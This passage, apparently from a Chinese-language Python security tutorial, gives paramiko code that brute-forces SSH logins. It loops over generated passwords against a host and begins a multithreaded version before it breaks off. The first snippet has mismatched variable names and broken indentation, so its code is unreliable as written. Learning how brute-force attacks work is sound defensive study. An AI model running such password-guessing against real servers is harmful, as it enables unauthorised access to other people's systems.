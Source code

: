 检查每个密码：

```py
try: 
    for i in var: 
        passwd = ''.join(i) 

        ssh_client = paramiko.SSHClient() 
        ssh_client.load_system_host_keys() 
           ssh_clienth.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy()) 
        try: 
            ssh.connect(IP , port=PORT, username=USER, password=passwd) 
            print "Password Found= "+passwd 
            break 
        except paramiko.AuthenticationException, error: 
            print "Faild Attempt: "+passwd 
            continue 
        except socket.error, error: 
            print error 
            continue 
        except paramiko.SSHException, error: 
            print error 
            continue 
        except Exception, error: 
            print "Unknown error: "+error 
            continue     
        ssh.close() 

except Exception,error : 
    print error  

```

我们可以使用线程模块使此脚本多线程化：

```py
import paramiko, sys, os, socket, threading, time  
import itertools,string,crypt 

PASS_SIZE = 5 

def bruteforce_list(charset, maxlength): 
    return (''.join(candidate) 
        for candidate in itertools.chain.from_iterable(itertools.product(charset, repeat=i) 
        for i in range(1, maxlength + 1))) 

def attempt(Password): 

    IP = "127.0.0.1" 
    USER = "rejah" 
    PORT=22 

    try: 

        ssh = paramiko.SSHClient() 
        ssh.load_system_host_keys() 
        ssh.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy()) 

        try: 
            ssh.connect(IP , port=PORT, username=USER, password=Password) 
            print "Connected successfully. Password = "+Password 
        except paramiko.AuthenticationException, error: 
            print "Incorrect password: "+Password 
            pass 
        except socket.error, error: 
```